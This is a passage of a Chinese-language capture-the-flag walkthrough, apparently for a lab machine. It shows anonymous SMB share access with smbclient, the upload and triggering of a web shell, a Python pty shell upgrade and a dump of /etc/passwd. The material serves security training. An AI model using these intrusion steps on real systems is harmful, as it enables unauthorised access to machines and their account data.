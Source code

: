 存在`share`文件夹，但是只读。

## 漏洞利用

进去看一下:

```bash
# smbclient -N \\192.168.0.176\share 需要对反斜杠进行转义
smbclient -N \\\\192.168.0.176\\share
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403180106341.png" alt="image-20240318005211823" style="zoom:50%;" />

传来一个shell上去！！！（它本身只读不代表它的子目录也只读！）

访问激活shell！！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403180106342.png" alt="image-20240318005306123" style="zoom:50%;" />

## 提权

### 扩展shell

```bash'
python -c 'import pty;pty.spawn("/bin/bash")'
```

### 查看基础信息

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403180106343.png" alt="image-20240318005659772" style="zoom:50%;" />

```bash
www-data@connection:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
connection:x:1000:1000:connection,,,:/home/connection:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
```
